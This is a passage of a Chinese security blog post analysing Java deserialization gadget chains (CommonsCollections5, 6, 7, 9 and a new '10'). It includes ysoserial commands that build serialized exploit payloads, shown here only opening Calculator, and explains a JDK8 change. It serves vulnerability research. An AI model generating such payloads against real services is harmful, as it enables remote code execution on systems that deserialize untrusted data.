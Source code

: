 > 原文链接: https://www.anquanke.com//post/id/190468 


# Java反序列化利用链分析之CommonsCollections5,6,7,9,10


                                阅读量   
                                **1046032**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p4.ssl.qhimg.com/t014e810d5cd76cb132.jpg)](https://p4.ssl.qhimg.com/t014e810d5cd76cb132.jpg)



## 0x00 前言

本文继续分析`CommonsCollections:3.1`的相关反序列化利用链，这次主要分析CommonsCollections5,6,7,9，以及我找的一个新利用链，这里暂且将其称为10.



## 0x01 环境准备

CommonsCollections5,6,7,10用的还是`commons-collections:3.1`，jdk用7或8都可以。<br>
CommonsCollections9适用于3.2.1

```
java -jar ysoserial-master-30099844c6-1.jar CommonsCollections5 "open /System/Applications/Calculator.app" &gt; commonscollections5.ser
java -jar ysoserial-master-30099844c6-1.jar CommonsCollections6 "open /System/Applications/Calculator.app" &gt; commonscollections6.ser
java -jar ysoserial-master-30099844c6-1.jar CommonsCollections7 "open /System/Applications/Calculator.app" &gt; commonscollections7.ser
```



## 0x02 利用链分析

### <a class="reference-link" name="1.%20%E8%83%8C%E6%99%AF%E5%9B%9E%E9%A1%BE"></a>1. 背景回顾

前面提到过CommonsCollections1和3在构造AnnotationInvocationHandler时用到了Override.class。但是如果你在jdk8的环境下去载入生成的payload，会发生`java.lang.Override missing element entrySet`的错误。

这个错误的产生原因主要在于jdk8更新了`AnnotationInvocationHandler`[参考](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/diff/8e3338e7c7ea/src/share/classes/sun/reflect/annotation/AnnotationInvocationHandler.java)
